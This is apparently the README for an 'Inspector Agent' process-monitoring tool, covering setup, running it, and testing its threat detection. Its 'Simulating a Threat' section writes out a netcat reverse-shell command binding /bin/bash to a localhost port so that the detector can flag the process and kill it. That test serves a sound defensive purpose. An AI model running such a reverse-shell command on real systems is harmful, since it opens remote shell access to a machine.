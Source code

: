 # How to Run the Inspector Agent

This document explains how to run the Inspector Agent project.

## Prerequisites

- Python 3

## Setup

1.  **Create a virtual environment:**

    ```bash
    python3 -m venv .venv
    ```

2.  **Install the dependencies:**

    ```bash
    ./.venv/bin/python3 -m pip install -r requirements.txt
    ```

## Running the Agent

1.  **Start the agent:**

    ```bash
    ./.venv/bin/python3 main.py
    ```

2.  **Test the agent:**

    In a separate terminal, open a port to test the agent:

    ```bash
    nc -l 8080
    ```

    You should see output in the agent's terminal indicating that it has detected the `nc` process.

## Simulating a Threat

To test the `ThreatAnalyzer` agent, you can simulate a threat by running a process that is likely to be flagged as malicious. In this example, we will simulate a reverse shell.

1.  **Run the reverse shell command:**

    ```bash
    nc -e /bin/bash 127.0.0.1 8081
    ```

2.  **Observe the output:**

    The `ThreatAnalyzer` agent should identify the `nc` process with the `-e` flag as a potential threat and the `Remediation` tool should kill the process.